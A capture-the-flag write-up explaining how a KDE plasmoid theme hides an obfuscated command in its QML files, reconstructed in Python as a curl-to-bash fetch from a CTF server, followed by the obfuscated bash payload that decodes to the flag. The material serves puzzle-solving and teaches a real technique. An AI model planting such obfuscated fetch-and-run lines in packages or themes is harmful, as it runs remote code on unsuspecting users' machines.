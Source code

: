 # Solution  
Look at the file plasmoids/susbutton/contents/ui/main.qml and sus.qml  
The code logic is in main.qml but the variables is in sus.qml. But if translate to python, it does this:  
```
var1   = "clts/acmtifa55d3ao.t s rhp/tiuc."
var2  = "/21d72pldx|a u t:st.dfocf587/yat bh"
var3  = r"/2pldx|Mopqfa99\gyat"
e   = var1 + var2 + var3

l     = 45
denom = 67

zeqzoq = "".join(e[(l*k) % 67] for k in range(l))
zeqzoq += "".join(e[(l*k) % denom] for k in range(l, 67))

print(zeqzoq)
# printed => curl https://static.umdctf.io/fc2af155d587d723/payload.txt | bash
```

Then just run the curl  

```
┌──(zeqzoq㉿zeqzoq)-[~]
└─$ curl https://static.umdctf.io/fc2af155d587d723/payload.txt
  "${@//a2::}"  b"a""s"${@,,}h  ${@//+dIsf/6j=V,}   "${@,}"   <<< "$(    "${@%|:Ye3c}" ${*~}   p""r\i$'\u006e'${*#uGE;Y}t$'\x66'  'QlpoOTFBWSZTWV6+ejAAABOfgECBgAkNAgYAv+/+CiAASIkG1A0aAeU9MoNCKNGEPQIaDCM0Qeq7JjaChSBUQyjnHBfDcziPcgeyD7qxoCheMPpv/DUmqA4vWAxSYbGoBdFjcXckU4UJBevnowA=' ${*^} "${@//ET,\!KUP}"  |   ${*^}   $'\x62''a'${*/CP@h\)6}se''"6"4   -d "${@//X~\}8n/E?\`FJa8}"  | ${@,} ${*//qb15\)$v} bu""nz''ip$((   (-(-(17#1--${*//Lx>vi%P\\}2"${@~~}"1#"1")+8"${@/fhA+3}"#0))   ))  -c   ${*,,} "${@//QB3q^du4}"     )"   "${@,}" "${@//MBAu2D}"
```

decode in cyberchef with From Base64 and Bzip2 Decompress then got  
`echo 'UMDCTF{kde_global_themes_can_be_quite_sus}' > /tmp/.flag; rm /tmp/.flag`  

Flag: `UMDCTF{kde_global_themes_can_be_quite_sus}`



Solved by: zeqzoq
